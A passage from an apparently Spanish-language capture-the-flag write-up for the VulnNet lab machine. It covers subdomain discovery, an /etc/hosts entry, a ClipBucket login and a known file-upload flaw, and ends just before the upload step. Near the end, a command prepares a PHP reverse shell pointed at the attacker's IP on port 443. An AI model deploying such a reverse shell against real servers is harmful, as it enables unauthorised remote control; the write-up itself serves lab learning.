 Luego de un rato encontramos **2** subdominios, añadimos **broadcast.vulnnet.thm** junto a **vulnnet.thm** en el ```/etc/hosts```

```bash
=================================================
 /etc/hosts
==================================================
<VULNNET_IP>	vulnnet.thm broadcast.vulnnet.thm
```
Y entramos desde la web
Vemos que nos pide credenciales, le proporcionamos las anteriormente encontradas y entramos!

<p align="center">
<img src="/assets/images/thm-writeup-vulnnet/img12.png">
</p>

<p align="center">
<img src="/assets/images/thm-writeup-vulnnet/img13.png">
</p>

Vemos que estamos ante un **clipbucket**, buscando un poco por **exploit-db** encontramos que podemos subir un archivo php con curl, pero antes de esto debemos preparar una shell:

```bash
~$> cp /usr/share/webshells/php/php-reverse-shell.php . && cat php-reverse-shell.php | sed 's/127.0.0.1/<TU_IP>/' | sed 's/1234/443/' > shell.php
```
Una vez hecho esto podemos ejecutar el siguiente comando para subir nuestra shell: 
